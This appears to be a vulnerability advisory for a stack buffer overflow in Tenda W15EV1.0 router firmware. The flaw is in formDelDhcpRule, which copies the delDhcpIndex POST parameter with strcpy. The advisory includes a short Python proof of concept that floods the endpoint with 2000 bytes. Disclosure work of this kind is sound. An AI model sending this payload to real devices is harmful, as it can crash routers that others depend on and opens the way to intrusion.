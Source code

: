 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-2722.html

## Affected version

W15EV1.0 V15.11.0.14

## Vulnerability details

The Tenda W15EV1.0 V15.11.0.14 firmware has a stack overflow vulnerability in the `formDelDhcpRule` function. The `indexSet` variable receives the `delDhcpIndex` parameter from a POST request and is directly assigned to `strcpy`. However, since the user can control the input of `delDhcpIndex `, the statement `strcpy((char *)indexs, (const char *)indexSet);` can cause a buffer overflow. The user-provided  `delDhcpIndex` can exceed the capacity of the `indexs` array, triggering this security vulnerability.

![image-20240417101102741](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417101102741.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/DelDhcpRule"
payload = b"a"*2000

data = {
    	'delDhcpIndex':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240416114043980](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114043980.png)
